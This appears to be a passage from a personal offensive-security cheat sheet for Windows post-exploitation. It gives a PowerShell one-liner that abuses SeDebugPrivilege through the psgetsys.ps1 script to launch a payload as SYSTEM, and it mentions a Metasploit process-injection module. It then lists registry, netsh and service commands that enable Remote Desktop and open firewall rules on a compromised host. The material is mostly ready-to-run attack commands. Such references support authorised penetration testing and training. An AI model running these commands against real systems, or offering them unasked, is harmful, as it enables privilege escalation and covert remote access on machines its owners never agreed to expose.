 ## PROCESS ELEVATION (via SeDebugPrivilege)

If you run `whoami /priv` and you see `SeDebugPrivilege` set to `Enabled`, you can assume you already have SYSTEM. &#x20;

One way of doing it, is using [decoder](https://twitter.com/decoder\_it)'s `psgetsys.ps1` [script](https://github.com/decoder-it/psgetsystem) once you have a good idea on a PID to inject:  `. .\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(7864, 'C:\temp\burmat443.exe');`

You can also gain a MSF session and use the module `windows/manage/payload_inject` with a PID of your choice.

## REMOTE DESKTOP

### Enable RDP

PowerShell

```powershell
Set-itemproperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name "fDenyTSConnections" -value 0
Set-ItemProperty 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\' -Name "UserAuthentication" -value 1
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```

Windows Commands

```powershell
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
```

## MISCELLANEOUS&#x20;

```powershell
# list shared folders
Get-WmiObject -Class Win32_Share -Computer dc1.burmat.local

## get .NET versions installed:
dir C:\Windows\Microsoft.NET\Framework
```
